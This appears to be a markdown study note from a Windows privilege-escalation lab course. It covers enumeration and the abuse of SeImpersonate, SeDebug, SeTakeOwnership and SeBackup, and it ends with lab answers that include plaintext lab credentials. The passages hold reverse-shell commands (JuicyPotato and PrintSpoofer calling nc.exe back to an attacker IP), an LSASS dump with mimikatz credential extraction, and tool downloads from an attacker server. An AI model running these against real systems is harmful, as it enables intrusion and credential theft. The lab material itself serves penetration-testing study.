





# Windows P

## Introduction

The goal of privesc is to further our access to a given system to a member of the **Local Administrator** group or the **NT AUTHORITY\SYTEM** account.

The reasons to escalate privileges are :

1. When testing a client's [gold image](https://www.techopedia.com/definition/29456/golden-image) Windows workstation and server build for flaws
2. To escalate privileges locally to gain access to some local resource such as a database
3. To gain [NT AUTHORITY\System](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account) level access on a domain-joined machine to gain a foothold into the client's Active Directory environment
4. To obtain credentials to move laterally or escalate privileges within the client's network

| Tool                                                                                                     | Description                                                                                                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [Seatbelt](https://github.com/GhostPack/Seatbelt)                                                        | C# project for performing a wide variety of local privilege escalation checks                                                                                                                                                                                                                                             |
| [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) | WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts. All of the checks are explained [here](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)                                                                                                          |
| [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)      | PowerShell script for finding common Windows privilege escalation vectors that rely on misconfigurations. It can also be used to exploit some of the issues found                                                                                                                                                         |
| [SharpUp](https://github.com/GhostPack/SharpUp)                                                          | C# version of PowerUp                                                                                                                                                                                                                                                                                                     |
| [JAWS](https://github.com/411Hall/JAWS)                                                                  | PowerShell script for enumerating privilege escalation vectors written in PowerShell 2.0                                                                                                                                                                                                                                  |
| [SessionGopher](https://github.com/Arvanaghi/SessionGopher)                                              | SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information                                                                                                                         |
| [Watson](https://github.com/rasta-mouse/Watson)                                                          | Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.                                                                                                                                                                                                    |
| [LaZagne](https://github.com/AlessandroZ/LaZagne)                                                        | Tool used for retrieving passwords stored on a local machine from web browsers, chat tools, databases, Git, email, memory dumps, PHP, sysadmin tools, wireless network configurations, internal Windows password storage mechanisms, and more                                                                             |
| [Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)                        | WES-NG is a tool based on the output of Windows' `systeminfo` utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 10, including their Windows Server counterparts, is supported                 |
| [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)         | We will use several tools from Sysinternals in our enumeration including [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk), [PipeList](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist), and [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice) |

### The Lay of the Land

#### Situational Awareness

| Command         | Description                                |
| --------------- | ------------------------------------------ |
| `ipconfig /all` | Interfaces, IP addresses, DNS information. |
| `arp -a`        | ARP table.                                 |
| `route print`   | Routing table.                             |

The popular protection solution offered by Microsoft is [AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview). Most of modern environments have some sort of anti-virus or Endpoint Detection and Response (EDR) service running to monitor, alert on and block threats.

| Command                                                                       | Description                    |
| ----------------------------------------------------------------------------- | ------------------------------ |
| `Get-MpComputerStatus`                                                        | Check Windows Defender status. |
| `Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections`    | List AppLocker rules.          |
| `Get-AppLockerPolicy -Local \| Test-AppLockerPolicy -path ... -User Everyone` | Test AppLocker policy.         |

### Initial Enumeration

There are a lot of information to get in a system before trying to priv escalade.

| Command                                                      | Description                                                   |
| ------------------------------------------------------------ | ------------------------------------------------------------- |
| `tasklist /svc`                                              | Look at the running processes.                                |
| `set`                                                        | All environment variables.                                    |
| `systeminfo`                                                 | Shows if the box has been parched recently and if it is a VM. |
| `wmic qfe`                                                   | (Quick Fix Engineering) Displays patches.                     |
| `Get-HotFix \\| ft -Autosize`                                | Same result of the previous command.                          |
| `wmic product get name`                                      | Displays installed softwares.                                 |
| `Get-WmiObject -Class Win32_Product \\| select Name,Version` | Same result of the previous command.                          |
| `netstat -ano`                                               | Displays active TCP and UDP connections.                      |
| `query user`                                                 | Determines what users are logged into a system.               |
| `echo %USERNAME%`                                            | Checks what user context our account is running under first.  |
| `whoami /priv`                                               | The user privileges.                                          |
| `whoami /groups`                                             | The user groups.                                              |
| `net users`                                                  | All users.                                                    |
| `net localgroup`                                             | All groups.                                                   |
| `net localgroup amdinistrators`                              | Details about a group.                                        |
| `net account`                                                | Password policy and other account information.                |

And other tools :

* [Session Manager Subsystem (smss.exe)](https://en.wikipedia.org/wiki/Session\_Manager\_Subsystem)
* [Client Server Runtime Subsystem (csrss.exe)](https://en.wikipedia.org/wiki/Client/Server\_Runtime\_Subsystem)
* [WinLogon (winlogon.exe)](https://en.wikipedia.org/wiki/Winlogon)
* [Local Security Authority Subsystem Service (LSASS)](https://en.wikipedia.org/wiki/Local\_Security\_Authority\_Subsystem\_Service)
* [Service Host (svchost.exe)](https://en.wikipedia.org/wiki/Svchost.exe)

### Inter-Processes Communication

You can enumerate network services by using `netstat`. It displays all active TCP/UDP connections and some of them can only be accessible locally. The examples of privesc are :

* [Splunk Universal Forwarder Hijacking](https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2)
* [SplunkWhisperer2](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/)
* [Erlang-arce blogpost from Mubix](https://malicious.link/post/2018/erlang-arce/)

```
PS> netstat -ano
```

<figure><figcaption></figcaption></figure>

You can use **Named Pipes**. It communicates between processes through files stored in memory. These can be accessible with the command `gci \\.\pipe\` of by using [PipeList](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist) from Sysinternals Suite like this `pipelist.exe /accepteula`.

<figure><figcaption></figcaption></figure>

After enumerating all named pipes, [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) can show us all permissions from DACL (Discretionary Access List). The command is `accesschk.exe /accepteula \\.\Pipe\lsass -v`.

You can check if a pipe has unusual permissions to escalate privileges, that's a named pipe attack ([WindscribeService Named Pipe Privilege Escalation](https://www.exploit-db.com/exploits/48021) is an example). The command to check if **WindscribeService** is vulnerable is `accesschk.exe -accepteula -w \pipe\WindscribeService -v`.

<figure><figcaption></figcaption></figure>

## User Privileges

* The Windows groups and their descriptions

| **Group**                   | **Description**                                                                                                                                                                                                                                                                                                                                                    |
| --------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Default Administrators      | Domain Admins and Enterprise Admins are "super" groups.                                                                                                                                                                                                                                                                                                            |
| Server Operators            | Members can modify services, access SMB shares, and backup files.                                                                                                                                                                                                                                                                                                  |
| Backup Operators            | Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs.                                                                  |
| Print Operators             | Members can log on to DCs locally and "trick" Windows into loading a malicious driver.                                                                                                                                                                                                                                                                             |
| Hyper-V Administrators      | If there are virtual DCs, any virtualization admins, such as members of Hyper-V Administrators, should be considered Domain Admins.                                                                                                                                                                                                                                |
| Account Operators           | Members can modify non-protected accounts and groups in the domain.                                                                                                                                                                                                                                                                                                |
| Remote Desktop Users        | Members are not given any useful permissions by default but are often granted additional rights such as `Allow Login Through Remote Desktop Services` and can move laterally using the RDP protocol.                                                                                                                                                               |
| Remote Management Users     | Members can log on to DCs with PSRemoting (This group is sometimes added to the local remote management group on non-DCs).                                                                                                                                                                                                                                         |
| Group Policy Creator Owners | Members can create new GPOs but would need to be delegated additional permissions to link GPOs to a container such as a domain or OU.                                                                                                                                                                                                                              |
| Schema Admins               | Members can modify the Active Directory schema structure and backdoor any to-be-created Group/GPO by adding a compromised account to the default object ACL.                                                                                                                                                                                                       |
| DNS Admins                  | Members can load a DLL on a DC, but do not have the necessary permissions to restart the DNS server. They can load a malicious DLL and wait for a reboot as a persistence mechanism. Loading a DLL will often result in the service crashing. A more reliable way to exploit this group is to [create a WPAD record](https://cube0x0.github.io/Pocing-Beyond-DA/). |

* The user privileges

| Setting [Constant](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) | Setting Name                                                                                                                                                                              | Standard Assignment                                     | Description                                                                                                                                                                                                                                                                                                                                                |
| ----------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SeNetworkLogonRight                                                                             | [Access this computer from the network](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/access-this-computer-from-the-network)               | Administrators, Authenticated Users                     | Determines which users can connect to the device from the network. This is required by network protocols such as SMB, NetBIOS, CIFS, and COM+.                                                                                                                                                                                                             |
| SeRemoteInteractiveLogonRight                                                                   | [Allow log on through Remote Desktop Services](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/allow-log-on-through-remote-desktop-services) | Administrators, Remote Desktop Users                    | This policy setting determines which users or groups can access the login screen of a remote device through a Remote Desktop Services connection. A user can establish a Remote Desktop Services connection to a particular server but not be able to log on to the console of that same server.                                                           |
| SeBackupPrivilege                                                                               | [Back up files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories)                               | Administrators                                          | This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system.                                                                                                                                                                                         |
| SeSecurityPrivilege                                                                             | [Manage auditing and security log](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/manage-auditing-and-security-log)                         | Administrators                                          | This policy setting determines which users can specify object access audit options for individual resources such as files, Active Directory objects, and registry keys. These objects specify their system access control lists (SACL). A user assigned this user right can also view and clear the Security log in Event Viewer.                          |
| SeTakeOwnershipPrivilege                                                                        | [Take ownership of files or other objects](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects)         | Administrators                                          | This policy setting determines which users can take ownership of any securable object in the device, including Active Directory objects, NTFS files and folders, printers, registry keys, services, processes, and threads.                                                                                                                                |
| SeDebugPrivilege                                                                                | [Debug programs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs)                                                             | Administrators                                          | This policy setting determines which users can attach to or open any process, even a process they do not own. Developers who are debugging their applications do not need this user right. Developers who are debugging new system components need this user right. This user right provides access to sensitive and critical operating system components. |
| SeImpersonatePrivilege\*                                                                        | [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication)       | Administrators, Local Service, Network Service, Service | This policy setting determines which programs are allowed to impersonate a user or another specified account and act on behalf of the user.                                                                                                                                                                                                                |
| SeLoadDriverPrivilege                                                                           | [Load and unload device drivers](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/load-and-unload-device-drivers)                             | Administrators                                          | This policy setting determines which users can dynamically load and unload device drivers. This user right is not required if a signed driver for the new hardware already exists in the driver.cab file on the device. Device drivers run as highly privileged code.                                                                                      |
| SeRestorePrivilege                                                                              | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories)                               | Administrators                                          | This security setting determines which users can bypass file, directory, registry, and other persistent object permissions when they restore backed up files and directories. It determines which users can set valid security principals as the owner of an object.                                                                                       |

\* _User impersonation **allows you to temporarily sign in as a different user in your network**. Users with full impersonation permissions can impersonate all other users in their network and take any action, regardless of the impersonating user's own permission level._

Every process has a token that has information about the account that is running it. These tokens are not considered secure resources, as they are just locations within memory that could be brute-forced by users that cannot read memory. You need to have **SeImpersonate** privilege to utilize this token. With this token, it's possible to create a new Process like in the link [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw).

```
john@kali$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
SQL> xp_cmdshell whoami /priv
```

The current user is `nt service\mssql$sqlexpress01` and this user has the following enabled privileges :

* SeChangeNotifyPrivilege
* SeManageVolumePrivilege
* SeImpersonatePrivilege
* SeCreateGlobalPrivilege

### SeImpersonate and SeAssignPrimaryToken

**JuicyPotato**

Thus it's possible to use [JuicyPotato](https://github.com/ohpe/juicy-potato) to escalate privileges.

```
# attacker
nc -lnvp 8443
```

```
# target
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

| Flag | Meaning                             |
| ---- | ----------------------------------- |
| `-l` | The COM server listening port.      |
| `-p` | The program to launch.              |
| `-a` | The argument passed to the program. |
| `-t` | The createprocess call.             |

Then the attacker get an inbound connection from the target on port 8443. The `whoami` command says the user is `nt authority\system`.

**PrintSpoofer and RoguePotato**

JuicyPotato doesn't work on Windows Server 2009 and Windows 10 but **PrintSpoofer** and **RoguePotato** do.

```
# attacker
nc -lnvp 8443
```

```
# target
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

Still, once the attacker catches the shell, the `whoami` command says that the user is `nt authority\system`.

### SeDebugPrivilege

This privilege can be used to debug programs, capture sensitive information from system memory, access/modify kernel and application structures.

```
PS> whoami
```

The user has the following privileges :

| Privilege Name                | Description                    | State    |
| ----------------------------- | ------------------------------ | -------- |
| SeDebugPrivilege              | Debug programs                 | Disabled |
| SeChangeNotifyPrivilege       | Bypass traverse checking       | Enabled  |
| SeIncreaseWorkingSetPrivilege | Increase a process working set | Disabled |

[Procdump](typora://app/wiki/tools/sysinternals/procdump.md)

```
procdump.exe -ma lsass.exe lsass.dmp
```

### SeTakeOwnershipPrivilege

It can be used to change the ownership of any secured object like AD objects, NFTS files/folders, printers, registry keys, services and processes. It assigns WRITE\_OWNER rights over an object, meaning the user can change the owner within the object's security descriptor.

`Computer Configuration` ⇾ `Windows Settings` ⇾ `Security Settings` ⇾ `Local Policies` ⇾ `User Rights Assignment`

It can lead to get sensitive data, RCE or DOS. It's possible to abuse GPO with [SharpGPOAbuse](https://doc.nightblue.org/docs/wiki/tools/sharp-gpo-abuse). To leverage privilege, you can enable all token privileges with this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1). Then the select the targer file and execute the PowerShell command to get information.

```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```

The file owner is hidden, back up until you can see an owner.

```
cmd /c dir /q 'C:\Department Shares\Private\IT'
```

Once the owner has been flagged, take the ownership of the file.

```
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

Now you should see the owner with the previous PowerShell command.

```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```

It's possible to update the file ACL if there are restrictions.

```
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

Now `htb-student` has full access for this file.

## Windows Group Privileges

### Windows Built-in Groups

* List of built-in groups : [link](https://ss64.com/nt/syntax-security\_groups.html)
* List of privileged accounts : [link](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory)

### Backup Operators

It grants `SeBackupPrivilege` and `SeRestorePrivileges` to its membership. This will let us copy a file from a folder, event if there is no ACE for us in the folder's ACL.

```
PS> whoami /groups
PS> whoami /priv
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

The SeBackupPrivilege exists but is disabled. The next script will enable this privilege.

```powershell
PS> git clone https://github.com/giuliano108/SeBackupPrivilege.git
PS> cd SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/
PS> Import-Module SeBackupPrivilegeCmdLets.dll
PS> Import-Module SeBackupPrivilegeUtils.dll
```

```powershell
PS> Set-SeBackupPrivilege
PS> Get-SeBackupPrivilege
```

Now the SeBackupPrivilege is enabled. It's possible to copy file. The file NTDS.dit has NTLM credentials but it is locked by default. It's possible to copy it by mounting a shadow copy with [diskshadow](https://doc.nightblue.org/docs/wiki/tools/diskshadow). Once the file NTDS.dit is accessible and copied, there are tools to dump NTLM hashes from this file : [secretsdump.py](https://doc.nightblue.org/docs/wiki/tools/secret-dump) or [DSInternals](https://doc.nightblue.org/docs/wiki/tools/dsinternals).

### Event Log Readers

To perform these commands, you must be in the group `Event Log Readers`.

```
PS> net localgroup "Event Log Readers"
```

You can use two tools to check the logs of the Windows Events : `wevtutil` and `Get-WinEvent`.

```
PS> wevtutil qe Security /rd:true /f:text | Select-String "/user"
PS> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"

Get-WinEvent -LogName security where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

### DnsAdmins

The DNS runs as `NT AUTHORITY\SYSTEM`.

#### Hyper-V Administrators

#### Print Operators

#### Server Operators

### Questions

1.  What is the IP address of the other NIC attached to the target host?

    ```
    PS> arp -a
    # answer : 172.16.20.45
    ```
2.  What executable other than cmd.exe is blocked by AppLocker?

    ```
    PS> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
    # answer : powershell_ise.exe
    ```
3.  What non-default privilege does the htb-student user have?

    Open PowerShell as admin and run the following command.

    ```
    PS> whoami /priv
    # answer : SeTakeOwnershipPrivilege
    ```
4.  Who is a member of the Backup Operators group?

    ```
    PS> net localgroup "Backup Operators"
    # answer : sarah
    ```
5.  What service is listening on port 8080 (service name not the executable)?

    ```
    PS> Get-NetTCPConnection | Where-Object -Property LocalPort -eq 8080
    PS> Get-Process -Id 2120
    # answer : Tomcat8
    ```
6.  What user is logged in to the target host?

    ```
    PS> query user
    # answer : sccm_svc
    ```
7.  What type of session does this user have?

    ```
    PS> query user
    # answer : console
    ```

    
8.  What service is listening on 0.0.0.0:21? (two words)

    ```
    PS> netstat -ano
    ```

    

    ```
    PS> tasklist /FI 'PID eq 1804'
    ```

     The answer is `FileZilla Server`.
9.  Which account has WRITE\_DAC privileges over the \pipe\SQLLocal\SQLEXPRESS01 named pipe? Import the `accesschk.exe` file into working directory.

    ```
    PS> accesschk.exe -l '\pipe\SQLLocal\SQLEXPRESS01'
    ```

     The account is `NT SERVICE\MSSQL$SQLEXPRESS01`.
10. Escalate privileges using one of the methods shown in this section. Submit the contents of the flag file located at c:\Users\Administrator\Desktop\SeImpersonate\flag.txt. Authenticate to 10.129.43.43 with user "sql\_dev" and password "Str0ng\_P@ssw0rd!".

    ```
    # the attacker starts listening
    nc -lnvp 1234
    ```

    ```
    # the attacker connect its machine to the target sql database
    john@kali$ impacket-mssqlclient -windows-auth 'sql_dev:Str0ng_P@ssw0rd!@10.129.43.43'
    ```

    ```
    # the target sends cmd to the attacker
    SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.15.134 1234 -e cmd.exe" -t *
    ```

    Then the attacker gains a cmd shell as `nt authority\system`.

    ```
    more c:\Users\Administrator\Desktop\SeImpersonate\flag.txt  # flag here
    ```
11. Leverage SeDebugPrivilege rights and obtain the NTLM password hash for the sccm\_svc account. Connect to Windows Server through RDP as `jordan:HTB_@cademy_j0rdan!`. Open a Windows PowerShell console as Administrator. Check if the user has the privilege SeDebugPrivilege.

    ```
    PS> whoami /priv
    ```

    Find the service LSASS and create a child process. Transfer the tool [psgetsys.ps1](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) to the Windows Server.

    ```
    PS> 
    PS> tasklist
    PS> .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent((Get-Process "lsass").Id, "c:\windows\system32\cmd.exe","")
    ```

    A new CMD prompt is opened is `nt authority\system`. Transfer the tool [Procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) to the Windows Server. Dump the file LSASS with Procdump.

    ```
    PS> wget -O procdump.zip http://10.10.15.34:8000/Procdump.zip # + extract
    PS> .\procdump\procdump.exe -ma lsass.exe lsass.dmp
    ```

    Run Mimikatz in the same path of the `lsass.dmp` file.

    ```
    PS> wget -O mimikatz.zip http://10.10.15.34:8000/mimikatz_trunk.zip # + extract
    PS> .\mimikatz\x64\mimikatz.exe

    mimikatz> log
    mimikatz> sekurlsa::minidump lsass.dmp
    mimikatz> sekurlsa::logonpasswords     # flag here
    ```
12. Leverage SeTakeOwnershipPrivilege rights over the file located at "C:\TakeOwn\flag.txt" and submit the contents.

    ```
    PS> cmd /c dir /q C:\TakeOwn  # can't see owner
    PS> takeown /f C:\TakeOwn\flag.txt
    PS> cmd /c dir /q C:\TakeOwn  # owner is htb-student
    PS> icacls .\TakeOwn\flag.txt /grant htb-student:F
    PS> cat .\TakeOwn\flag.txt    # flag here
    ```
13. Leverage SeBackupPrivilege rights and obtain the flag located at c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt

    ```
    PS> whoami /groups
    PS> whoami /priv

    PS> git clone https://github.com/giuliano108/SeBackupPrivilege.git
    PS> cd SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/
    PS> Import-Module SeBackupPrivilegeCmdLets.dll
    PS> Import-Module SeBackupPrivilegeUtils.dll

    PS> Set-SeBackupPrivilege
    PS> Get-SeBackupPrivilege

    PS> Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt flag.txt
    PS> cat flag.txt  # flag here
    ```

    \
